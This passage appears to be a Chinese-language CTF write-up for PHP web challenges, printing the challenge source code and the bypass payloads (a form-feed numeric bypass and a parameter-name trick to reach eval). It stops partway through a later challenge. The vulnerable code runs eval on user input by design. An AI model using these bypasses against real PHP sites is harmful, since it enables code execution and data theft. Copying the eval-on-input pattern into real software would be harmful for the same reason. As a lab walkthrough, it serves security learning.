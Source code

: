 ```php

include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
} hacker!!!
```
分页符绕过
payload：/?num=%0c36
## web123（变量名特性）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```
小知识点，在php中，变量名是不允许出现.的，如果变量名为CTF_SHOW.COM会变成CTF_SHOW_COM，但是如果变量名中出现了]，]会被转变为_而后面的字符不会改变，于是构造payload：
CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo $flag
## web125（POST转GET逃逸）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
```